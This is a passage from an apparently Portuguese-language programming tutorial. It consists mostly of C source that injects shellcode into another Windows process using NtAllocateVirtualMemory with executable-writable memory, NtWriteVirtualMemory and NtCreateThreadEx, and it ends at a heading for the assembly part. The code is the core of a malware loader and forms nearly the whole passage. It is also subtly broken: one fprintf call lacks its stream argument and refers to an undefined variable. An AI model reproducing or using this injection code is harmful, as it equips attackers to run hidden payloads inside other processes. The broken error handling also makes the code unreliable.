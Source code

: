 ```c
	}
	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	printf("\n[*] Pressione Enter para alocar memoria no processo alvo");
	(void)getchar();
	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	printf("[!] Alocando Memoria Com NtAllocateVirtualMemory");

	NTSTATUS statusA = NtAllocateVirtualMemory(hProcess, &allocBuffer, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (!NT_SUCCESS(statusA)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Falha ao alocar memoria virtual. NTSTATUS: 0x%08X\n", statusA);
		return 1;
	}

	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	printf("\n[*] Pressione Enter para escrever na memoria no processo alvo");
	(void)getchar();
	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	printf("[!] Escrevendo Shellcode Com NtWriteVirtualMemory");

	SIZE_T bytesWritten;
	NTSTATUS  statusW = NtWriteVirtualMemory(hProcess, allocBuffer, shellcode, shellcodeSize, &bytesWritten);
	if (!NT_SUCCESS(statusW)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Falha ao escrever na memoria virtual. NTSTATUS: 0x%08X\n", statusW);
		return 1;
	}

	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	printf("\n[*] Pressione Enter para criar thread remota");
	(void)getchar();
	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	printf("[!] Criando Thread Remota Com NtCreateThreadEx");

	HANDLE hThread;
	NTSTATUS statusT = NtCreateThreadEx(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, allocBuffer, NULL, FALSE, 0, 0, 0, NULL);
	if (!NT_SUCCESS(statusT)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf("\nFalha ao criar thread remoto. NTSTATUS: 0x%08X\n", status);
		CloseHandle(hThread);
		return 1;
	}
	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	printf("\n[!] Aguardando Thread Completar Com NtWaitForSingleObject");
	SetConsoleTextAttribute(hConsole, 7);
	NtWaitForSingleObject(hThread, FALSE, NULL);
	return 0;
}
```
## Agora nosso código `asm`
